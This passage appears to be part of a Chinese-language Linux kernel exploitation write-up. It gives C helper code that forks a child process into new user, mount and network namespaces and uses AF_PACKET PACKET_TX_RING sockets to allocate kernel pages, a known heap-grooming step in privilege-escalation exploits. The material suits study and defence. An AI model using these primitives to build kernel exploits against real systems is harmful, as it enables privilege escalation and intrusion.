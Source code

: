 我们使用 fork 开了一个子进程，然后将子进程放到单独的命名空间里，并且用管道进行通信。

这两个函数定义如下

```c
void unshare_setup(uid_t uid, gid_t gid)
{
    int temp;
    char edit[0x100];
    unshare(CLONE_NEWNS|CLONE_NEWUSER|CLONE_NEWNET);
    
    temp = open("/proc/self/setgroups", O_WRONLY);
    write(temp, "deny", strlen("deny"));
    close(temp);

    temp = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", uid);
    write(temp, edit, strlen(edit));
    close(temp);
    
    temp = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", gid);
    write(temp, edit, strlen(edit));
    close(temp);
    return;
}

int alloc_pages_via_sock(uint32_t size, uint32_t n)
{
    struct tpacket_req req;
    int32_t socketfd, version;

    socketfd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socketfd < 0)
    {
        perror("bad socket");
        exit(-1);
    }

    version = TPACKET_V1;

    if (setsockopt(socketfd, SOL_PACKET, PACKET_VERSION, &version, sizeof(version)) < 0)
    {
        perror("setsockopt PACKET_VERSION failed");
        exit(-1);
    }

    assert(size % 4096 == 0);

    memset(&req, 0, sizeof(req));

    req.tp_block_size = size;
    req.tp_block_nr = n;
    req.tp_frame_size = 4096;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;

    if (setsockopt(socketfd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req)) < 0)
    {
        perror("setsockopt PACKET_TX_RING failed");
        exit(-1);
    }

    return socketfd;
}
```